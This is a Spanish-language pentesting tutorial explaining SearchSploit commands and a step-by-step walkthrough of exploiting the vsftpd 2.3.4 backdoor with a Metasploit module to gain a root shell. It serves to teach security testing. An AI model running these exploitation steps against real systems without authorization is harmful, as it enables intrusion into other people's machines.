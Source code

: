 # Uso de SearchSploit y explotación de vulnerabilidades (Ejemplo: vsftpd 2.3.4)

## 1. ¿Qué es SearchSploit?
SearchSploit es una herramienta de línea de comandos incluida en **Exploit-DB** que permite buscar, consultar y copiar localmente exploits y PoCs (Proof of Concept) disponibles en la base de datos.

Es muy útil en **pentesting** para identificar exploits públicos relacionados con servicios o versiones específicas detectadas durante el reconocimiento.

## 2. Comandos básicos

### Buscar un exploit
```bash
searchsploit <nombre_servicio> <versión>
```
Ejemplo:
```bash
searchsploit vsftpd 2.3.4
```

### Mostrar detalles completos (path local y URL online)
```bash
searchsploit -w <nombre_servicio>
```

### Mostrar solo el path local en tu sistema
```bash
searchsploit -p <nombre_servicio>
```

### Copiar un exploit localmente
```bash
searchsploit -m <ID_o_path>
```
Ejemplo:
```bash
searchsploit -m 49757
```
Esto copiará el exploit desde la base de datos local a tu directorio actual.

### Buscar exploits con coincidencia exacta
```bash
searchsploit -e <palabra_clave>
```

### Actualizar la base de datos de SearchSploit
```bash
searchsploit -u
```

## 3. Caso práctico: vsftpd 2.3.4

### Paso 1: Búsqueda del exploit
```bash
searchsploit vsftpd 2.3.4
```
Salida esperada:
```
vsftpd 2.3.4 - Backdoor Command Execution  | unix/remote/17491.rb
```

### Paso 2: Copiar el exploit a tu directorio
```bash
searchsploit -m 17491
```
Esto te dejará un archivo Ruby (`.rb`) que es un módulo para Metasploit.


## 4. Explotando vsftpd 2.3.4 con Metasploit

### Paso 1: Abrir Metasploit
```bash
msfconsole
```

### Paso 2: Cargar el módulo del exploit
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

### Paso 3: Configurar el objetivo
```bash
set RHOSTS <IP_objetivo>
set RPORT 21
```

### Paso 4: Ejecutar el exploit
```bash
exploit
```
Si es vulnerable, el exploit abrirá una shell en el puerto backdoor (generalmente 6200) y obtendrás acceso como root.
